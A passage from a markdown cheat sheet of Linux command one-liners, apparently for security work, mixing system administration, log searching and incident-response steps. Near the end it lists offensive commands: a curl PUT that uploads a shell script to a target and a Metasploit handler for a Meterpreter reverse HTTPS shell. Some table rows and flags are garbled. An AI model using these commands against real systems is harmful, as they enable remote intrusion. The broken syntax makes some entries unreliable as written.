 |uptime && free |load average & utilization of memory|
|upx -9 -o output.exe input.exe |UPX compress .exe file|


## usermod
| | |
|-|-|
|usermod --expiredate 1 [username]    |  Quarantine victim's account|
|usermod --expiredate -1 [username]   |  Restore accounts, reset passwords|
|userdel -r [username] | Remove account|
|usermod -a -G \<username\> \<groupname\>       ||
|vim file.txt.gz       | Read a .txt.gz file|
|vmstat -s     | memory usage|
|vmstat -s    |  Virtual memory stats|
|watch ss -stplu   |    Watch TCP, UDP open ports in real time|
|who | grep username (get pts/#) &&|pkill -f pts/#   |   Kill any ssh connections by user|
|zcat archive.gz       | Read a gz file|
|zgrep 'blah' /var/log/maillog*.gz     | Search a gz file|
|zgrep 'new user' /var/log/auth*     |   extra accounts appearing on system|
|zip -r file.zip /dir/* Creates a .zip file|
|zipgrep *.txt archive.zip    |  Search inside a .zip archive.|
|zless archive.gz       |Read a gz file|
|dmesg  |display or control the kernel ring buffer|
|curl –X OPTIONS –v http//$ip  | check options|
|curl –upload-file /root/file.txt –v –url http//$ip/test/file.sh -0 --http1.0 |  put file|
|./msfconsole -x “use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set LHOST $ip; set PORT 8443; run” | set up handler|
|while read p; do ping -a -n 1 $p | grep Pinging; done < 1.txt  |loop through a file|
|cat 1.txt | while read line; do ping -a -n 1 $line | grep Reply; done  loop through a file|
|lsblk -o NAME,FSTYPE,SIZE,MOUNTPOINT,LABEL  |   list all HD/Partitions|